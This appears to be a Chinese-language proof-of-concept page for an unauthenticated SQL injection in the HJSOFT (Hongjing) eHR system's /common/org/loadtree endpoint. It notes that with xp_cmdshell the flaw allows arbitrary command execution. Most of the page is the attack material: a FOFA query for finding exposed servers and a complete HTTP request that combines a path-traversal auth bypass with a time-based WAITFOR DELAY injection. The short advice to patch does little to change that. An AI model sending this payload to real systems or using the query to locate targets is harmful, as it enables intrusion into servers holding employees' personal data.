 # 宏景eHR人力资源管理系统接口loadtree存在SQL注入漏洞

宏景eHR /common/org/loadtree 接口处存在sql注入漏洞，未经身份验证的远程攻击者通过利用SQL注入漏洞配合数据库xp_cmdshell可以执行任意命令，从而控制服务器。经过分析与研判，该漏洞利用难度低，建议尽快修复。

## fofa

```
app="HJSOFT-HCM"
```

## poc

```yaml
GET /w_selfservice/oauthservlet/%2e./.%2e/common/org/loadtree?params=child&treetype=1&parentid=1%27%3BWAITFOR+DELAY+%270%3A0%3A5%27--&kind=2&issuperuser=1&manageprive=1&action=1&target=1&backdate=1&jump=1 HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:125.0) Gecko/20100101 Firefox/125.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: close
```

![image-20240704170558179](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202407041706848.png)